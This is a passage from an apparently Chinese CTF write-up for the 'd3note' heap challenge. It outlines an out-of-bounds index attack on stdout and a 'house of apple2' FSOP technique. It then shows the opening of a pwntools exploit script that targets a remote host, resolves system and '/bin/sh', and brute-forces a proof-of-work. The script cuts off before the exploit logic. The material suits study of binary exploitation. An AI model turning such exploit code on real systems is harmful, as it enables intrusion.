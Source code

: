 ### d3note

> NoteTakingSoftware

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714317699678-2f499e5f-ea5f-4267-97d8-92f2d4e11c83.png)

有一个idx的越界，应该是打stdout这些

1. 往前存在一个地址addr:addr-&gt;stdout-&gt;\_IO\_2\_1\_stdout
2. 先泄露，然后再写入两次\_IO\_2\_1\_stdout
3. 就可以构造一个符合的结构体，进行读写
4. 然后用house of apple2打stdout

```php
from pwn import *
from pwnlib.util.iters import mbruteforce
from hashlib import sha256,md5
from Crypto.Cipher import ARC4
context.arch='amd64'
context.os='linux'
context.log_level='debug'

choice=0
if choice==1:
    p=process('./11')
else:
    p=remote("47.103.219.45",32249)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
libc_os   = lambda x                :libc_base + x
libc_sym  = lambda x                :libc_os(libc.sym[x])
def get_sb():
    return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug(cmd=''):
    gdb.attach(p,cmd)
    pause()
def proof_of_work(p):
    p.recvuntil(b"256(\"")
    prefixes = p.recvuntil(b'\"').decode("utf8")[:-1]
    log.success(prefixes)
    def brute(cur):
        content = prefixes + str(cur)
        s = sha256(content.encode())
        if s.hexdigest().startswith("000000") and int(s.hexdigest()[6:8], 16) < 0x40:
            return True
        return False
    proof = mbruteforce(brute,string.ascii_lowercase + string.digits, length=6, method='upto',threads=20)
    p.sendlineafter(b"zero:", proof)
def proof_of_work_md5(p):
    p.recvuntil(b"with \"")
    prefixes = p.recvuntil(b'\"').decode("utf8")[:-1]
    log.success(prefixes)
    def brute(cur):
```
